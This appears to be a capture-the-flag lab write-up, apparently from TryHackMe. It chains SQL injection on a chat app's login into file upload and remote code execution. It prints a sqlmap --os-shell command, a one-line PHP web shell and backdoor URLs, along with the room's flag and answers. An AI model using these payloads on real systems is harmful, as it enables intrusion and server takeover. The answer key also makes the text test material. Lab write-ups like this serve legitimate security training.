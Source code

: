 ```shell
sqlmap -u "http://10.10.17.143//ai/includes/user_login.php?email=test%40chatai.com&password=pass123" -p email --os-shell
```

- The above command will exploit the SQL injection vulnerability, as well as to chain it with an arbitrary file upload attempt, which uploads a file stager in the root web directory that can be accessed by typing `http://MACHINE_IP:80/tmpukmfp.php` in the browser.

```
http://10.10.17.143:80/tmpukmfp.php
```

```
1 test@chatai.com 12345678 2023-02-21 09:05:46
sqlmap file uploader
[Browse] no file selected
[C:\xampp\htdocs\       ] upload
```


- The malicious file allows Bob to gain initial access to the server. Now Bob has opened avenues of exploitation for him, as he can upload any file on the server and execute it. He creates a simple PHP-based backdoor that will allow him to run any command on the server using the `cmd` parameter. Create a text file by copying the following code and saving it as `hack.php`.

```php
# hack.php
<?php if(isset($_REQUEST['cmd'])) { echo "<pre>"; $cmd = ($_REQUEST['cmd']); system ($cmd); echo "</pre>"; die; } ?>
```
- Now Bob can upload the shell via the browser and access the backdoor at 

```
http://10.10.17.143/tmpumfof.php

http://10.10.17.143:80/hack.php

http://10.10.17.143/hack.php?cmd=dir
```

The above case study demonstrates how a simple vulnerability like an initial SQL injection can be used to chain a series of attacks, leading to an arbitrary file upload and ultimately remote code execution.


```
(Bad error handling in JavaScript - check the alert message.)
What is the response when we enter email **test@chatai.com'** as user email and password **123** in the login form?

undefined

Execute the command **whoami**, what is the output you receive?

nt authority\system

(Use the type command to see the content of the file.)
Have you noticed the file flag.txt in the web root directory? What is the flag value?

/hack.php?cmd=more+flag.txt
THM{010101_PAWNED}

How many files are available in the **C:\xampp\htdocs\img** folder?

2
```
